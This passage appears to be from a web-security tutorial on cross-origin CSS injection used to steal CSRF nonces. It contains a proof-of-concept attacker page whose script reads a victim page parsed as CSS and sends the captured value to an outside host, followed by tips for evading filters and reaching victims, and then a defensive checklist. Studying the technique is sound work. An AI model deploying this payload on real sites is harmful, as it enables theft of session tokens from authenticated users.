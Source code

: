 ```
{}*{font-family:'
```

— this contains `{}*{font-family:'` **no `<` or `>`**, so many filters let it through.

#### **Attacker page (PoC)**

```html
<link rel="stylesheet" href="https://wahh-mail.com/inbox" type="text/css">
<script>
  // IE: document.body.currentStyle; modern: getComputedStyle
  var family = document.body.currentStyle.fontFamily;
  document.write('<img src="http://mdattacker.net/capture?' + escape(family) + '">');
</script>
```

**Browser behavior:**

* Fetch `https://wahh-mail.com/inbox` as CSS.
* CSS parser treats `font-family:'` then consumes everything up to the next single quote — which happens later in the page (in the victim's script string), so the `font-family` value becomes a huge chunk of HTML including the hidden nonce.
* Attacker’s script reads that computed style and exfiltrates it.

**Result:** attacker obtains the CSRF nonce and can launch a subsequent CSRF or other attack.

---

### Why some browsers are vulnerable and others not

* Vulnerability depends on **how the browser parses content declared as CSS** when it actually receives HTML. Historically IE accepted such content and allowed CSS parsing across HTML content; many modern browsers tightened parsing behavior to block this class of attack.
* **Reality for an assessor:** don’t assume all clients are safe — old or misconfigured clients (embedded browsers, old IE variants, some webviews) can remain exploitable.

---

### Variations & Improvements

* Use different CSS properties (e.g., `background`, `font-family`, `content`) to maximize chance of success across browsers.
* If the injected text can avoid quotes and rely on semicolon-terminated CSS, sometimes that works too — but unclosed-quote trick is most reliable for multi-line capture.
* If the application encodes quotes differently, adapt injection (single vs double quote) to match parsing.
* Combine with social engineering (victim clicks attacker link while authenticated) or with email previews to maximize reach.

---

### Practical Defensive Checklist 

1. **Never allow untrusted user input to be reflected into responses without sanitization** — even text-only fields. Treat text content as untrusted.
2. **Filter/encode characters that can break parsing contexts** (quotes, `{`, `}`, `:`, `;`) when you must echo user input into HTML.
3. **Avoid emitting sensitive tokens into HTML** where they can appear in contexts that might be parsed by other interpreters (CSS, URLs). Prefer server-side session validation and nonces that are not reflected.
4. **Use strict Content-Type headers**: if an endpoint is HTML, it should declare `Content-Type: text/html; charset=UTF-8`. But note: browsers sometimes ignore content-type inconsistencies — so don’t rely on it as only defense.
5. **CSP** can help by disallowing unauthorized stylesheet loads; but CSP is defense-in-depth, not a single fix.
6. **Test on legacy clients** and webviews (mobile apps, older IE) — real-world exposure often comes from old agents.